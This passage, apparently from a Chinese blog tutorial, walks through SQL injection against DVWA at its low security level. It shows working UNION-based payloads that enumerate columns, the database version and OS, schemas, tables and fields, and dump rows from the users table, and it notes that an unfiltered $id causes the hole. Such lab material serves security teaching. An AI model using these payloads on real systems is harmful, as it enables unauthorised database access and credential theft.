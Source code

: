 >5.利用order by num语句来测试数据表有多少个字段。（--加空格）表示注释掉sql语句末尾的单引号。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214851.png)
>
>6.当输入3是，页面报错。页面错误信息如下，Unknown column ‘3’ in ‘order clause’，由此我们判断查询结果值为2列。
>
>7.注入：``1' and 1=2 union select 1,2 --`由图得知，First name处显示为查询结果第一列的值，Surname处显示为查询结果第二列的值。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214857.png)
>
>8.通过注入：`1' and 1=2 union select user(),database() --`得到数据库用户以及数据库名称。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214919.png)
>
>9.通过注入：`1' and 1=2 union select version(),database() -- `得到数据库版本信息。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214930.png)
>
>10.通过注入：
>
>```
>1'and 1=2 union select 1,@@global.version_compile_os from mysql.user --
>```
>
>获得操作系统信息。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214936.png)
>
>11.通过注入：`1' and 1=2 union select 1,schema_name from information_schema.schemata -- `查询所有数据库名字。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214855.png)
>
>12.通过注入：`1' and exists(select * from 表名) --`猜解dvwa数据库中的表名。测试表名为users。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214903.png)
>
>13.猜解字段名：`1' and exists(select 表名 from users) --`,测试的字段名为first_name,last_name。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214856.png)
>
>14.爆出数据库中字段的内容`1' and 1=2 union select first_name,last_name from users --`,这里其实如果是存放管理员账户的表，那么用户名，密码信息字段就可以爆出来了。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214935.png)

**源码分析：**

![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214904.png)

>通过代码可以看出，对输入$id的值没有进行任何过滤就直接放入了SQL语句中进行处理，这样带来了极大的隐患。

### 2.中安全等级代码分析
